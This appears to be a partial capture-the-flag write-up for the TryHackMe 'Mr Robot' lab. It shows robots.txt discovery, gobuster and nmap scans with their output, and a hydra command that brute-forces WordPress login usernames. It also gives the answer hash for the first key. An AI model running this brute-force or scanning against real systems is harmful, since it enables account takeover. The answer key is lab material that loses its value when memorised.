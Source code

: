 ```yaml
---
title:  "TryHackMe | Mr Robot"
layout: post

---
```


## What is key 1?

the hint says: robots

we nagivate to http://10.10.63.240/robots.txt and get this

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
go to:

http://10.10.63.240/key-1-of-3.txt

ans: 073403c8a58a1f80d943455fb30724b9

## What is key 2?

we use gobuster to discover this is a wordpress website with a wp-login page

```
kali@kali:~/Downloads$ gobuster dir -u http://10.10.63.240:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.63.240:80
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/22 03:56:59 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 200)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 200)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 200)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 200)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 200)
/page1 (Status: 200)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
Progress: 12561 / 220561 (5.70%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/07/22 04:09:21 Finished
===============================================================
```

download the fsocity.dic file from 10.10.63.240/fsociety.doc

We open up fsociety.doc - it could be a list of usernames. Maybe we can try to brute force the username of the wordpress login using hydra

First we need to get the htt-post-form from burpsuite

![Github](./images/burpwp.png)

-L specifies a word list of usernames
-p specifies a dummy password of "test"

http-post-form 



```console
hydra -L fsocity.dic -p test 10.10.116.182 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.116.182%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

## What is key 3?

the hint says: nmap

```console
kali@kali:~/Downloads$ nmap -sV -v -Pn -n -p80,443 10.10.63.240
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 03:15 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Connect Scan at 03:15
Scanning 10.10.63.240 [2 ports]
Discovered open port 80/tcp on 10.10.63.240
Discovered open port 443/tcp on 10.10.63.240
Completed Connect Scan at 03:15, 0.40s elapsed (2 total ports)
Initiating Service scan at 03:15
Scanning 2 services on 10.10.63.240
Completed Service scan at 03:15, 14.39s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.63.240.
Initiating NSE at 03:15
Completed NSE at 03:15, 3.53s elapsed
Initiating NSE at 03:15
Completed NSE at 03:15, 3.20s elapsed
Nmap scan report for 10.10.63.240
Host is up (0.40s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.24 seconds
```
